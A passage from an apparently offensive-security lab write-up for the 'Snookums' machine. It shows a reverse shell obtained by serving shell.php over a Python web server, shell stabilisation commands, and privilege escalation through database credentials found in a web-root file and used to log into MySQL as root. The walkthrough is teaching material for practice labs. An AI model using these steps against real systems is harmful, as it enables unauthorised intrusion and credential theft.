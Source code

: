 ┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/snookums]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
![image](https://user-images.githubusercontent.com/67879936/222938236-cce086c5-8e34-47a1-9fcf-87fcaa7335ba.png)

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/snookums]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.53.58 - - [05/Mar/2023 03:23:48] "GET /shell.php HTTP/1.0" 200 -
```
Lets check out netcat listener to see if we captured anything

![image](https://user-images.githubusercontent.com/67879936/222938269-bd4f52c6-8039-49c8-9c73-0d5a20157e3b.png)

cool, we got a shell as user ```apache```. Lets stabilize this shell

```
python3 -c “import pty;pty.spawn(‘/bin/bash’)”
ctrl + z (to background)
stty raw -echo && fg
export TERM=xterm
```
![image](https://user-images.githubusercontent.com/67879936/222938485-76a77df9-9511-4f2b-90af-26222427aaea.png)

Now that we've done that lets go ahead and escalate our privileges



<h2>Privilege Escalation</h2>

Checking the ```/var/www/html``` directory I found a .db file

![image](https://user-images.githubusercontent.com/67879936/222938935-ace757a1-890b-4c83-9d00-08f2a3ee8522.png)

cool, the .db file contains DB username and password. Lets go ahead and connect to the mysql database

>command: mysql -u root -p

![image](https://user-images.githubusercontent.com/67879936/222939000-d5e53f80-cef2-4949-9304-d4824b05a63a.png)

we are logged in

```
bash-4.2$ mysmysql -u root -p
mysql -u root -p
Enter password: MalapropDoffUtilize1337
